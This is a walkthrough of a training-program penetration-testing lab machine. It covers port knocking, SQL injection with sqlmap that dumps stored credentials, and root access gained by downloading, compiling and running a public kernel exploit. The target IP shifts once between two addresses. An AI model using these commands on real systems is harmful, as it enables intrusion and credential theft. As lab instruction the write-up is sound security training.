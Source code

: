 # DEPI Machine Walkthrough
> 
> 
> 
> This is a report of a penetration testing task we completed during the DEPI Training program. The training, sponsored by the National Telecommunications Regulatory Authority (NTRA) of Egypt, focused on the Vulnerability Analysis/Penetration Testing Track.
> 
> 
> 
> ## Walkthrough
> 
> 
> 
> ### Step 1: Discovering the Target IP
> 
> 1. Used the **MAC Address** to find the IP address with `netdiscover`.
> 
>    - **Target IP**: `192.168.207.133`
> 
> 
> 
> ### Step 2: Port Scanning
> 
> - Performed an Nmap scan: `nmap -sC -sV -p- <target_ip>`
> 
>   - Found only SSH port open.
> 
> 
> 
> ### Step 3: Brute-Force Attempts
> 
> - Tried logging in with username `smeagol` but without success.
> 
> - Attempted brute-forcing the password using **Hydra**, but it failed.
> 
> 
> 
> ### Step 4: Port Knocking
> 
> - Identified a hint: "Knock Friend To Enter. Easy as 1,2,3."
> 
> - Used Nmap to send port knocking sequences:
> 
>   ```bash
> 
>   nmap -Pn --host-timeout 100 --max-retries 0 -p 1 192.168.207.133
> 
>   nmap -Pn --host-timeout 100 --max-retries 0 -p 2 192.168.207.133
> 
>   nmap -Pn --host-timeout 100 --max-retries 0 -p 3 192.168.207.133
> 
> 
> 
> ### Step 5: Web Application Enumeration
> 
> 1. Accessed the service through a browser but found no useful information.
> 
> 2. Checked the `/robots.txt` file and inspected the page source.
> 
> 3. Discovered a **Base64-encoded path** in the source code. After decoding it twice, found the path:
> 
>                 http://10.10.207.133:1337/978345210/index.php
> 
> 4. Visited the path and found a login page.
> 
> 
> 
> ### Step 6: SQL Injection
> 
> 1. Used **Burp Suite** to intercept the login request and saved it as `post.txt`.
> 
> 2. Tested the form for SQL Injection vulnerabilities using **SQLmap**:
> 
>              sqlmap -r post.txt -p username
> 
> 3. Then Extracted the smeagol username and password.
> 
>             sqlmap -r post.txt -p username -D Webapp -T Users --dump
> 
> 
> 
> ### Step 7: SSH Access and Privilege Escalation
> 
> 1. Logged into the machine via SSH using the credentials obtained.
> 
> 2. Attempted to access the /root directory but was unauthorized.
> 
> 3. Gathered OS and kernel information:
> 
>          uname -a
> 
> 4. Used searchsploit to find exploits for the kernel version:
> 
>          searchsploit ubuntu 14.04
> 
> 5. Selected and downloaded an exploit (39166.c) from Exploit-DB:
> 
>        wget https://www.exploit-db.com/download/39166
> 
> 6. Compiled and executed the exploit:
> 
>        gcc 39166.c -o exploit
> 
>        chmod +x exploit
> 
>        ./exploit
> 
> 7. Successfully gained root privileges and accessed the flag in the /root directory. 

 _Originally posted by @0xPr0fx in [e125ebc](https://github.com/0xPr0fx/DEPI/commit/e125ebc049c007b7b2af0286775b4fbd645d454a#commitcomment-149742813)_
